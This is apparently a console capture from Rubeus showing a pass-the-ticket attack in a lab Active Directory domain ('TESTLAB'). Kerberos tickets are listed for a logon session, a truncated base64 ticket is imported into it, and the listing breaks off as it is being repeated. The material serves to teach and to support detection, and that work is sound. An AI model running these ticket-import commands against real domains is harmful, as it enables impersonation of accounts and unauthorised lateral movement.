     C:\Rubeus>Rubeus.exe klist /luid:0x474722b

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.3.3



    [*] Action: List Kerberos Tickets (All Users)

    [*] Target LUID     : 0x474722b

    UserName                 : patsy
    Domain                   : TESTLAB
    LogonId                  : 0x474722b
    UserSID                  : S-1-5-21-883232822-274137685-4173207997-1169
    AuthenticationPackage    : Kerberos
    LogonType                : Interactive
    LogonTime                : 2/11/2019 10:58:53 PM
    LogonServer              : PRIMARY
    LogonServerDNSDomain     : TESTLAB.LOCAL
    UserPrincipalName        : patsy@testlab.local

        [0] - 0x12 - aes256_cts_hmac_sha1
        Start/End/MaxRenew: 2/11/2019 2:58:53 PM ; 2/11/2019 7:58:53 PM ; 2/18/2019 2:58:53 PM
        Server Name       : krbtgt/TESTLAB.LOCAL @ TESTLAB.LOCAL
        Client Name       : patsy @ TESTLAB.LOCAL
        Flags             : name_canonicalize, pre_authent, initial, renewable, forwardable (40e10000)


    C:\Rubeus>Rubeus.exe ptt /luid:0x474722b /ticket:doIFmjCCBZagAwIBBaEDAgEWoo..(snip)..

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.3.3


    [*] Action: Import Ticket
    [*] Target LUID: 0x474722b
    [+] Ticket successfully imported!

    C:\Rubeus>Rubeus.exe klist /luid:0x474722b

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

